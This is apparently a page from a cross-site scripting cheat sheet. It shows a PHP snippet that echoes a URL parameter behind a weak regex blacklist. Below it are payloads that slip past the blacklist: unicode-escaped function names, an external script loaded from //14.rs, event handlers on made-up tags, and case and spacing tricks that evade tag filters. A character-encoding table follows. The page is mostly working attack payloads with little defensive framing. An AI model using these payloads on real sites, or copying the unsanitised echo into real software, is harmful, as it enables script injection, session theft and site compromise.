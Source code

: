 ```
<svg onload=console.log()//
```

```php
<?php
$test = "/src|alert|confirm|prompt|write/";

$string = $_GET['search'];

echo "<h1>" ;
echo (preg_match($test , $string)) ? "XSS Detected": $string ; 
echo "</h1>" ;
?>
```

* Without alert, confirm, prompt

```
<script src=//14.rs></script>
<svg onload=co\u006efirm()>
<svg onload=z=co\u006efir\u006d,z()>
```

* Without a Valid HTML tag

```
<x onclick=confirm()>click here
<x ondrag=aconfirm()>drag it
```

* Bypass tag blacklisting

```
</ScRipT>
</script
</script/>
</script x>
```

| HTML       | Char | Numeric  | Description            | Hex    | CSS (ISO) | JS (Octal) | URL |
| ---------- | ---- | -------- | ---------------------- | ------ | --------- | ---------- | --- |
| `&quot;`   | "    | `&#34;`  | quotation mark         | u+0022 | \0022     | \42        | %22 |
| `&num;`    | #    | `&#35;`  | number sign            | u+0023 | \0023     | \43        | %23 |
| `&dollar;` | $    | `&#36;`  | dollar sign            | u+0024 | \0024     | \44        | %24 |
| `&percnt;` | %    | `&#37;`  | percent sign           | u+0025 | \0025     | \45        | %25 |
| `&amp;`    | &    | `&#38;`  | ampersand              | u+0026 | \0026     | \46        | %26 |
| `&apos;`   | '    | `&#39;`  | apostrophe             | u+0027 | \0027     | \47        | %27 |
| `&lpar;`   | (    | `&#40;`  | left parenthesis       | u+0028 | \0028     | \50        | %28 |
| `&rpar;`   | )    | `&#41;`  | right parenthesis      | u+0029 | \0029     | \51        | %29 |
| `&ast;`    | \*   | `&#42;`  | asterisk               | u+002A | \002a     | \52        | %2A |
| `&plus;`   | +    | `&#43;`  | plus sign              | u+002B | \002b     | \53        | %2B |
| `&comma;`  | ,    | `&#44;`  | comma                  | u+002C | \002c     | \54        | %2C |
| `&minus;`  | -    | `&#45;`  | hyphen-minus           | u+002D | \002d     | \55        | %2D |
| `&period;` | .    | `&#46;`  | full stop; period      | u+002E | \002e     | \56        | %2E |
| `&sol;`    | /    | `&#47;`  | solidus; slash         | u+002F | \002f     | \57        | %2F |
| `&colon;`  | :    | `&#58;`  | colon                  | u+003A | \003a     | \72        | %3A |
| `&semi;`   | ;    | `&#59;`  | semicolon              | u+003B | \003b     | \73        | %3B |